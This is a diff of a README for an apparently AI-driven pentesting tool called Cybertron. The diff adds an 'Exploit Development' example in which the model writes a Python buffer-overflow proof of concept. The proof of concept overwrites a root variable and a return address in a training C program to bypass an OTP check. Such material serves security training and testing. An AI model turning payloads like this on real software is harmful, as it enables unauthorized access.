

Before and after one commit to CodeSecAI/Cybertron, a Markdown page: README.md, 2 parts joined by grey strips. Shown: that part at 93% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -5,9 +5,9 @@ Beta release of Cybertron Model
 ## Setup
 
 ```
-pip install langchain
+pip install langchain tiktoken openai
 ```
-### Example run
+### Code Review
 ```
 $ python .\PenTestTool.py -m model.jsonl -t -p train -P train --provider azure --azure-model CodeSec --mode code-review -f ".c"
 Loaded 2534 records from model.jsonl
@@ -82,6 +82,45 @@ Taxonomy: The vulnerability is a CWE-119: Improper Restriction of Operations wit
 
 CVSS Score: The CVSS3.1 score for this vulnerability is 7.8 (High).
 ```
+## Exploit Development
+
+```
+python .\PenTestTool.py -m model.jsonl -t -p .\train -P train --provider azure --azure-model CodeSec --mode exploit-dev -f ".c"
+Loaded 2534 records from model.jsonl
+CodeSec.ai Training Model Complete
+---------------------------
+Testing: .\train\23-bufferOverflow.c
+Sure, here's a proof of concept in Python to exploit the buffer overflow vulnerability in the provided code:
+
+
+import struct
+
+# Address of the LoadDashboard function
+LOAD_DASHBOARD_ADDR = 0x080491b2
+
+# Address of the root variable
+ROOT_ADDR = 0x0804a048
+
+# Address of the OTP variable
+OTP_ADDR = 0x0804a040
+
+# Address of the tryOTP variable
+TRY_OTP_ADDR = 0x0804a04c
+
+# Offset to overwrite the return address
+RET_OFFSET = 0x5c
+
+# Payload to overwrite the root variable and return to the LoadDashboard function
+payload = b'A' * RET_OFFSET
+payload += struct.pack('<I', ROOT_ADDR)
+payload += b'A' * 4
+payload += struct.pack('<I', LOAD_DASHBOARD_ADDR)
+
+# Send the payload to the vulnerable program
+print(payload)
+
+You can run this code by saving it to a file (e.g. `exploit.py`) and running it with Python: `python exploit.py | ./23-bof`. This will send the payload to the vulnerable program and overwrite the `root` variable with a non-zero value, allowing the user to bypass the OTP check and load the dashboard.
+```
 
 ### Sales of private models and tooling
 
````
